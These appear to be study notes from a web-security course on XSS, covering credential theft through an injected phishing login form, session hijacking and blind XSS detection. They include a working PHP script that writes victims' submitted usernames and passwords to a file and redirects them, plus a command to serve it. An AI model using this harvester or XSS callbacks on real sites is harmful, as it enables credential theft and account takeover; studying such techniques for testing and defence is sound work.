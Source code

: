 
## Credential Stealing

- from above example, if we tried to log into the injected login form, will get an error "This site can't be reached"
- as HTML form is designed to send the login request to our IP which should listening for a connection, we will get a site can't be reached error

- write php code
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

```sh
sudo php -S 0.0.0.0:80
```

---

# Session Hijacking or Cookie Stealing

- modern web applicaitons utilize cookies to maintain user's session throughout different browsing sessions
- enables the user to only log in once and keep their logged-in session alive
- if an attacker obtains the cookie data from the victim's browser, they may be able to gain logged-in access with the victim's user without knowing their credentitals


## Blind XSS Dectection

- Blind XSS vuln occurs when the vuln is triggered on a page we don't have access to
- usually occur with forms only accessible by certain users (eg - admins)
- some potential examples 
	- contact forms
	- reviews
	- user details
	- support tickets
	- HTTP User-Agent Header

- suppose a web application with registration form which contains name, password, email, website fields to input
- if we filled the form and sent, replay text with "Admin will review your registration", etc
- we cannot find XSS vulns with alert box 
- **how would we be able to detect an XSS vuln if we cannot see how the output is handled?**
- we have to use a JS payload that sends an HTTP request back to our server
- if the JS code gets executed, we will get a response on our machine and we will know that the page is vulnerable
- this introduce 2 issues
	1. How can we know which specific field is vulnerable?
		- since any of the fields may execute our code, we can't know which of them did
	2. How can we know what XSS payload to use?
		- since the page may be vulnerable, but the payload may not work
